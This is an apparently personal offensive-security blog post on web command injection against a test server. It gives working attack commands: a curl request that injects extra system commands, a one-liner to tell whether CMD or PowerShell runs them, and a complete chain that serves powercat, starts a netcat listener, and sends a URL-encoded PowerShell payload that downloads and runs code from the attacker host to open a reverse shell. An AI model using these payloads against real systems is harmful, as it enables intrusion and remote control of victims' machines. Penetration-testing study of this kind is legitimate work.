 ```yaml
---
layout: post
title: CMD Injection
titledate: 08/31/23
tags: ["infosec","offsec", "exploit", "web", "shell", "powershell"]
---
```


some applicagions may allow you to input queries or commands - in these instances we can try to add additional commands to them to see if they are properly filtered or strictly limited to what is allowed

In this example the web page allows you to enter a test command from the system command line for git, so we can grab the query in burp and then alter it to include our cmd

    $ curl -X POST --data 'cmd=git%3Bipconfig' http://192.168.50.50:8000/cmd

If we are targetting windows we can run a check to determine if the cmd executes in cmd or powershell

    $ (dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell

we may need to url encode the above command

<h4>Powercat</h4>

We can use Powercat to create a reverse shell

    $ /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1

first we serve the script with python
    
    $ python3 -m http.server 80

next we start our netcat listener

    $ nc -nlvp 443

finally we'll use curl to send a url encoded powershell reverse shell cmd to the target with our ip

```powershell
EX (New-Object System.Net.Webclient).DownloadString("http://192.168.1.1/powercat.ps1");powercat -c 192.168.1.1 -p 443 -e powershell
```
   
    $ curl -X POST --data 'cmd=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.1.1%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.1.1%20-p%20443%20-e%20powershell' http://192.168.50.50:8000/cmd

<h4>Linux Shell</h4>

using linux our attack might look like the following, where we use the bash one liner to create a tcp shell to our machine on 443

![_config.yml]({{ site.baseurl }}/images/web/bash_cmd_injection.png)